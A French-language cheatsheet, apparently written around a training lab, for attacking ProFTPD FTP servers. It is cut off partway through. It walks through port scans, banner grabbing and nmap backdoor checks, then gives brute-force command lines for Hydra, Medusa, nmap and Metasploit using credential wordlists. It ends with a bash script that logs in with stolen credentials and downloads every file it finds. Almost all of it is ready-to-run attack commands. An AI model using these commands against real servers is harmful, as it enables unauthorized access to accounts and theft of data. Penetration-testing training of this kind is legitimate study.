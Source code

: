 # ProFTP Recon - Cheatsheet d'Exploitation

## Vue d'ensemble
Cette cheatsheet couvre les techniques de reconnaissance et d'exploitation des serveurs ProFTPD, incluant l'énumération, les attaques par force brute, l'exploitation de vulnérabilités et les techniques de post-exploitation.

---

## Phase 1: Reconnaissance et détection

### Test de connectivité
```bash
# Vérification de l'accessibilité
ping -c 4 <target>

# Test de connectivité FTP
telnet <target> 21
nc -nv <target> 21
```

### Scan des ports FTP
```bash
# Scan basique du port FTP
nmap -p 21 <target>

# Scan avec détection de version
nmap -sV -p 21 <target>

# Scan complet des ports FTP alternatifs
nmap -p 21,2121,990,989 -sV <target>

# Scan agressif avec scripts
nmap -sS -sV -sC -p 21 --script ftp* <target>
```

### Banner Grabbing
```bash
# Avec netcat
nc -nv <target> 21

# Avec telnet
telnet <target> 21

# Avec nmap
nmap -sV -p 21 <target> --version-intensity 9

# Identification spécifique ProFTPD
nmap -p 21 --script banner <target>
```

---

## Phase 2: Énumération ProFTPD

### Scripts Nmap spécialisés
```bash
# Enumération complète FTP
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 -p 21 <target>

# Test d'accès anonyme
nmap --script ftp-anon -p 21 <target>

# Détection de versions vulnérables
nmap --script ftp-proftpd-backdoor -p 21 <target>

# Test de bounce attack
nmap --script ftp-bounce -p 21 <target>
```

### Test d'accès anonyme
```bash
# Connexion manuelle
ftp <target>
# User: anonymous
# Password: anonymous@domain.com

# Test automatique
echo "anonymous" | ftp <target>
```

### Énumération des utilisateurs
```bash
# Via VRFY (si activé)
telnet <target> 21
VRFY root
VRFY admin
VRFY test

# Avec Metasploit
msfconsole
use auxiliary/scanner/ftp/ftp_version
set RHOSTS <target>
run
```

---

## Phase 3: Attaques par force brute

### Avec Hydra (Recommandé)

#### Configuration de base
```bash
# Utilisateur unique, wordlist de mots de passe
hydra -l <username> -P <password_file> ftp://<target>

# Wordlist d'utilisateurs, mot de passe unique
hydra -L <user_file> -p <password> ftp://<target>

# Wordlists multiples (comme dans le lab)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target> -t 4 ftp
```

#### Options avancées Hydra
```bash
# Avec limitation de threads et timeout
hydra -L users.txt -P passwords.txt ftp://<target> -t 4 -w 30

# Mode verbose
hydra -L users.txt -P passwords.txt ftp://<target> -V -f

# Avec port personnalisé
hydra -L users.txt -P passwords.txt ftp://<target>:2121 -t 4

# Arrêt à la première réussite
hydra -L users.txt -P passwords.txt ftp://<target> -f -t 10
```

### Avec Nmap Scripts

#### Force brute ciblée
```bash
# Utilisateur spécifique (comme sysadmin dans le lab)
echo "sysadmin" > users.txt
nmap --script ftp-brute --script-args userdb=users.txt -p 21 <target>

# Avec wordlists personnalisées
nmap --script ftp-brute --script-args userdb=/path/to/users.txt,passdb=/path/to/passwords.txt -p 21 <target>

# Force brute basique avec listes par défaut
nmap --script ftp-brute -p 21 <target>
```

### Avec Metasploit
```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set STOP_ON_SUCCESS false  # Pour trouver tous les comptes
set VERBOSE true
run
```

### Avec Medusa
```bash
# Syntaxe de base
medusa -h <target> -u <username> -P <password_file> -M ftp

# Attaque complète
medusa -h <target> -U /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -M ftp -t 10
```

---

## Phase 4: Exploitation post-authentification

### Connexion FTP manuelle
```bash
# Connexion basique
ftp <target>
# Entrer username/password

# Connexion avec port personnalisé
ftp <target> 2121

# Mode passif (pour contourner les firewalls)
ftp <target>
passive
```

### Commandes FTP essentielles
```bash
# Navigation
pwd                    # Répertoire courant
ls                     # Lister les fichiers
ls -la                 # Liste détaillée avec fichiers cachés
cd <directory>         # Changer de répertoire
cd ..                  # Répertoire parent

# Transfert de fichiers
get <filename>         # Télécharger un fichier
mget *.txt            # Télécharger plusieurs fichiers
put <filename>        # Uploader un fichier
mput *.txt            # Uploader plusieurs fichiers

# Gestion des modes
binary                # Mode binaire
ascii                 # Mode texte
passive              # Mode passif
active               # Mode actif

# Informations
stat                  # Statut du serveur
syst                  # Type de système
help                  # Aide
```

### Recherche systématique de flags/données

#### Script de collecte automatique
```bash
#!/bin/bash
# ftp_collector.sh

TARGET=$1
CREDS_FILE=$2

while IFS=':' read -r username password; do
    echo "Testing $username:$password"
    
    # Connexion FTP automatique
    ftp -n $TARGET << EOF
user $username $password
passive
binary
prompt off
ls -la
mget *
quit
EOF

    # Organiser les fichiers par utilisateur